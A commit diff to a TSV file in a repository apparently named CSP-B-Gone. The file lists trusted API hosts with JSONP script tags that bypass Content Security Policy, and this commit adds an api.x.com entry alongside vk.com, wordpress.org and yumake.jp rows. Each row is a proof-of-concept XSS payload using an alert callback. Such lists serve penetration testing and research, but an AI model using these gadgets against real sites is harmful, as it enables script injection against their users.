

Before and after one commit to ACK-J/CSP-B-Gone, a TSV file: data.tsv, drawn as a sheet; only a part is shown, gaps mark what is left out; the shorter side is filled out with more unchanged rows.

Commit message:
Update data.tsv
added x.com API

```diff
--- a/data.tsv
+++ b/data.tsv
@@ -148,2 +148,3 @@ api.vk.com	<script src="https://api.vk.com/method/wall.get?callback=alert(1337)"
 api.wordpress.org	<script src="https://api.wordpress.org/stats/plugin/1.0/?slug=x&callback=alert"></script>
+api.x.com	<script src="https://api.x.com/1/statuses/oembed.json?url=https:%2F%2Ftwitter.com%2FMartina%2Fstatus%2F867710263654580226&callback=alert&_=1496363308445"></script>
 api.yumake.jp	<script src="https://api.yumake.jp/1.0/sun.php?lat=26.264167&lon=127.700109&date=20241010&key=4f1452df57c1f2e21bb562c1469e78da&format=jsonp&callback=alert&_=1728573144432"></script>
```
